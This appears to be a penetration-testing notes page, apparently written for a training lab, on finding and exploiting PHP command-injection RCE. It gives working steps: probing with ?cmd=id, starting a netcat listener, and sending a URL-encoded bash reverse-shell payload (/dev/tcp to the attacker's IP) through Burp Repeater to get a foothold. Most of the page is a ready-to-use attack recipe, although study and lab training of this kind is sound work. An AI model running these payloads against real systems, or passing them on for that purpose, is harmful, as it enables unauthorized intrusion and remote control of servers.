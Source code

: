 # Code Injection RCE

## Detecting RCE

PHP running on the site?

* Attempt RCE to see if PHP exec () or PHP passthru is being used to pass commands to the local system
* <mark style="color:yellow;">Simply add ?cmd=(command-here)</mark>
* <mark style="color:yellow;">This is even easier when you send the request to repeater and modify the request there</mark>

```
http://admin.holo.live/dashboard.php?cmd=id
```

Example Burp Request:

```
GET /dashboard.php?cmd=id HTTP/1.1
```

* Now, within the Response tab, utilize the search function for user data if necessary

## Exploitation

* Now that we confirmed that we have RCE, it is time to get a foothold on the target
* We need to make a reverse shell

{% embed url="https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjihNiUi6T6AhXxhYkEHQgKDvUQFnoECAQQAQ&url=https%3A%2F%2Frevshells.com%2F&usg=AOvVaw2kSgZf8n__rsePim87CfRv" %}

* Attempt the bash reverse shell first

Initiate a Netcat listener:

```
nc -lnvp 1337
```

In the Repeater tab of Burp:

```
GET /dashboard.php?cmd=bash -c 'exec bash -i &>/dev/tcp/tun0-IP/1337 <&1'
```

* Highlight the reverse shell payload and do CTRL+U to URL encode
* Send the request and see if you get a shell
